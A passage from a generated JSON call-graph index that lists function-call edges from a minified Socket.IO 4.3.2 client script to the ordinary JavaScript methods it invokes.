"static/js/socket.io-4.3.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "listeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "isView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "doOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "doClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "decodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "decodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "poll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "doPoll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "poll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "doWrite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "request"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "request"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onLoad"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onSuccess"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "abort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "attachEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "abort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "uri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "createTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "createTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "pause"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTransport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "probe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onHandshake"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "resetPingTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "sendPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "filterUpgrades"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "resetPingTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "clearTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "setTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unref"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "sendPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "sendPacket"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onClose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "clearTimeoutFn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeAllListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "isView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encodeAsString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encodeAsBinary"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "stringify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "encodeAsString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "decodeString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "takeBinaryData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "finishedReconstruction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "finishedReconstruction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "subEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onopen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "_packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "auth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onevent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "onack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "ondisconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "packet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitBuffered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/socket.io-4.3.2.min.js", "target": "emitReserved"}, {"confidence": 